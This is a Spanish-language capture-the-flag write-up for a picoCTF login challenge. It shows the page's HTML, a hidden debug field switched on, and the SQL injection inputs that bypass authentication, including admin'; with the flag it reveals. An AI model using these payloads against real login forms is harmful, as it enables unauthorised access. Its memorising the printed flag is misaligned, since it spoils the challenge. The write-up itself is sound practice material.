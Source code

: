 ## Objetivo
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). 
Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849
## Solución
- ##### Se analiza el código fuente de la página, se observa que hay un form para usuario y password. Se cambia el valor de "hidden" a 1, para hacer que ya no esté oculto.
``` html
<!doctype html>
<html>
<head>
    <title>Login</title>
    <link rel="stylesheet" type="text/css" href="//maxcdn.bootstrapcdn.com/bootstrap/3.3.5/css/bootstrap.min.css">
</head>
<body>
<div class="container">
    <div class="row">
        <div class="col-md-12">
            <div class="panel panel-primary" style="margin-top:50px">
                <div class="panel-heading">
                    <h3 class="panel-title">Log In</h3>
                </div>
                <div class="panel-body">
                    <form action="login.php" method="POST">
                        <fieldset>
                            <div class="form-group">
                                <label for="username">Username:</label>
                                <input type="text" id="username" name="username" class="form-control">
                            </div>
                            <div class="form-group">
                                <label for="password">Password:</label>
                                <div class="controls">
                                    <input type="password" id="password" name="password" class="form-control">
                                </div>
                            </div>
                            <input type="hidden" name="debug" value="0">

                            <div class="form-actions">
                                <input type="submit" value="Login" class="btn btn-primary">
                            </div>
                        </fieldset>
                    </form>
                </div>
            </div>
        </div>
    </div>
</div>
</body>
</html>
```

- ##### Al tratar de iniciar sesión con la inyección SQL, no podemos iniciar, pero el valor "hidden" nos muestra nuevamente la consulta que se hace una base de datos, por lo que trataremos de realizar otra inyección SQL para obtener la bandera.
```
CONSULTA SQL NORMAL (intento de inyección y es detectada)
username: ' or 1=1;
password: admin
SQL query: SELECT * FROM users WHERE name='' or 1=1;' AND password='admin'

SQLi detected.

CONSULTA SQL INYECTADA
username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'

Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}
```
## Notas Adicionales
- SQL injection is a code injection technique that might destroy your database, is one of the most common web hacking techniques and is the placement of malicious code in SQL statements, via web page input.
## Referencias
- [PicoCTF](https://play.picoctf.org)
- [PicoCTF Writeups](https://www.youtube.com/playlist?list=PLDo9DMLZyP6kTZ8Td37-LdbAx4-yNfHBl&authuser=0)